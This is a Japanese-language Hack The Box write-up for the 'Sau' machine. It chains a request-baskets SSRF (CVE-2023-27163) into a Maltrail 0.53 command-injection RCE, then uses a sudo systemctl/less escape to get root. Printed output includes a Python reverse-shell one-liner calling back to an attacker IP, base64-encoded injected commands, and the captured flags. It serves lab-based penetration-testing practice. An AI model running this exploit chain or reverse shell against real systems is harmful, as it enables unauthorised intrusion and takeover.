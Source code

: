 https://app.hackthebox.com/machines/Sau

## STEP 1
```sh
└─$ nmap -n -Pn -p- -sV 10.129.229.26                                                    
Starting Nmap 7.95 ( https://nmap.org ) at 2025-06-30 09:15 EDT
Nmap scan report for 10.129.229.26
Host is up (0.66s latency).

PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    filtered http
8338/tcp  filtered unknown
55555/tcp open     unknown

Nmap done: 1 IP address (1 host up) scanned in 1000 seconds
```


## STEP 2
55555番にアクセス
<img src="https://github.com/mylovemyon/hackthebox_images/blob/main/Sau_01.png">  
`request-baskets`バージョン1.2.1には、CVE-2023-27163（SSRFの脆弱性）が存在する  
[PoC](https://github.com/entr0pie/CVE-2023-27163/tree/main)では、ターゲットで内部向けのポートへフォワーディングできる  
nmapの結果では80番がフィルタされていたのでPoCで確認してみる
```sh
└─$ wget -nv https://raw.githubusercontent.com/entr0pie/CVE-2023-27163/refs/heads/main/CVE-2023-27163.sh  
2025-06-30 09:12:21 URL:https://raw.githubusercontent.com/entr0pie/CVE-2023-27163/refs/heads/main/CVE-2023-27163.sh [1669/1669] -> "CVE-2023-27163.sh" [1]

└─$ chmod +x CVE-2023-27163.sh

└─$ ./CVE-2023-27163.sh       
Proof-of-Concept of SSRF on Request-Baskets (CVE-2023-27163) || More info at https://github.com/entr0pie/CVE-2023-27163

Usage: CVE-2023-27163.sh <URL> <TARGET>

This PoC will create a vulnerable basket on a Request-Baskets (<= 1.2.1) server,
which will act as a proxy to other services and servers.

Arguments:
 URL            main path (/) of the server (eg. http://127.0.0.1:5000/)
 TARGET         r-baskets target server (eg. https://b5f5-138-204-24-206.ngrok-free.app/)

More info at https://github.com/entr0pie/CVE-2023-27163.

└─$ ./CVE-2023-27163.sh http://10.129.229.26:55555 http://127.0.0.1:80
Proof-of-Concept of SSRF on Request-Baskets (CVE-2023-27163) || More info at https://github.com/entr0pie/CVE-2023-27163

> Creating the "mtpggm" proxy basket...
> Basket created!
> Accessing http://10.129.229.26:55555/mtpggm now makes the server request to http://127.0.0.1:80.
./CVE-2023-27163.sh: line 43: jq: command not found
> Response body (Authorization): {"token":"7QE7vU41tjWjcv3ki3lGO01uqgHnFUkunvY5jRfjXWzB"}
```
PoCで作成されたurlにアクセス、80番へのアクセスが成功した  
<img src="https://github.com/mylovemyon/hackthebox_images/blob/main/Sau_02.png">


## STEP 3
80番で動作している、Maltrail 0.53 にもrceの脆弱性がある  
[PoC](https://github.com/spookier/Maltrail-v0.53-Exploit)を確認すると、hxxp://x.x.x.x/loginに脆弱性があるっぽい  
ここでPoCのtarget_URLの部分を変更する（request basketsで生成したurlを使用するため）
```python
target_URL = sys.argv[3] + "/login"
↓
target_URL = sys.argv[3]
```
ここでPoCの通信を「hxxp://127.0.0.1/login」にフォワーディングするために、先程の「request baskets」を利用しPoC実行
```sh
└─$ ./CVE-2023-27163.sh http://10.129.200.37:55555 http://127.0.0.1:80/login
Proof-of-Concept of SSRF on Request-Baskets (CVE-2023-27163) || More info at https://github.com/entr0pie/CVE-2023-27163

> Creating the "tcrcqh" proxy basket...
> Basket created!
> Accessing http://10.129.200.37:55555/tcrcqh now makes the server request to http://127.0.0.1:80/login.
./CVE-2023-27163.sh: line 43: jq: command not found
> Response body (Authorization): {"token":"8fGpaB2m8QH7NW0ne_6Rxd-l0B8LHvFtRjMoVpTutd5r"}

└─$ wget -nv https://raw.githubusercontent.com/spookier/Maltrail-v0.53-Exploit/refs/heads/main/exploit.py
2025-07-02 02:09:49 URL:https://raw.githubusercontent.com/spookier/Maltrail-v0.53-Exploit/refs/heads/main/exploit.py [2200/2200] -> "exploit.py" [1]

└─$ python3.13 exploit.py 10.10.16.4 4444 http://10.129.200.37:55555/tcrcqh
Running exploit on http://10.129.200.37:55555/tcrcqh
^C 
```
リバースシェルゲット！ユーザフラグゲット
```sh
└─$ nc -lnvp 4444                   
listening on [any] 4444 ...
connect to [10.10.16.4] from (UNKNOWN) [10.129.200.37] 44166

$ python3 -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'

puma@sau:/opt/maltrail$ ^Z
zsh: suspended  nc -lnvp 4444

└─$ stty raw -echo; fg
[1]  + continued  nc -lnvp 4444
                               ^C

puma@sau:/opt/maltrail$ export SHELL=bash

puma@sau:/opt/maltrail$ export TERM=xterm-256color

puma@sau:/opt/maltrail$ stty rows 66 columns 236

puma@sau:/opt/maltrail$ id
uid=1001(puma) gid=1001(puma) groups=1001(puma)

puma@sau:/opt/maltrail$ cat /home/puma/user.txt
87961d03dd608aa3d7389921a468e5fd
```


## STEP 4
パスワードなしで、sudoでroot権限で「/usr/bin/systemctl status trail.service」が実行できるらしい
```sh
puma@sau:/opt/maltrail$ sudo -l
Matching Defaults entries for puma on sau:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User puma may run the following commands on sau:
    (ALL : ALL) NOPASSWD: /usr/bin/systemctl status trail.service
```
systemctlコマンドで画面出力が`less`コマンドに渡される  
[リンク](https://gtfobins.github.io/gtfobins/systemctl/#sudo)を確認すると、lessコマンド中にシェルを開けることができ、ルートフラグゲット！
```sh
puma@sau:/opt/maltrail$ sudo systemctl status trail.service
● trail.service - Maltrail. Server of malicious traffic detection system
     Loaded: loaded (/etc/systemd/system/trail.service; enabled; vendor preset: enabled)
     Active: active (running) since Mon 2025-07-21 14:14:58 UTC; 8min ago
       Docs: https://github.com/stamparm/maltrail#readme
             https://github.com/stamparm/maltrail/wiki
   Main PID: 878 (python3)
      Tasks: 12 (limit: 4662)
     Memory: 29.1M
     CGroup: /system.slice/trail.service
             ├─ 878 /usr/bin/python3 server.py
             ├─ 965 /bin/sh -c logger -p auth.info -t "maltrail[878]" "Failed password for ;`echo "cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxvcyxwdHk7cz1zb2NrZXQuc29ja2V0KHNvY2tldC5BRl9JTkVULHNvY2tldC5TT0NLX1NUUkVBTSk7cy5jb25uZWN0KCgiMTAuMTAu>
             ├─ 967 /bin/sh -c logger -p auth.info -t "maltrail[878]" "Failed password for ;`echo "cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxvcyxwdHk7cz1zb2NrZXQuc29ja2V0KHNvY2tldC5BRl9JTkVULHNvY2tldC5TT0NLX1NUUkVBTSk7cy5jb25uZWN0KCgiMTAuMTAu>
             ├─ 971 sh
             ├─ 975 python3 -c import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.16.7",4444));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")
             ├─ 976 /bin/sh
             ├─ 978 python3 -c import pty; pty.spawn("/bin/bash")
             ├─ 979 /bin/bash
             ├─1001 sudo systemctl status trail.service
             ├─1003 systemctl status trail.service
             └─1004 pager

Jul 21 14:14:58 sau systemd[1]: Started Maltrail. Server of malicious traffic detection system.
Jul 21 14:22:29 sau sudo[1000]:     puma : TTY=pts/1 ; PWD=/opt/maltrail ; USER=root ; COMMAND=list
Jul 21 14:23:16 sau sudo[1001]:     puma : TTY=pts/1 ; PWD=/opt/maltrail ; USER=root ; COMMAND=/usr/bin/systemctl status trail.service
Jul 21 14:23:16 sau sudo[1001]: pam_unix(sudo:session): session opened for user root by (uid=0)
!sh
# id
uid=0(root) gid=0(root) groups=0(root)

# cat /root/root.txt
961dc7484c3ca254d7a9d79dda1f41cb
```

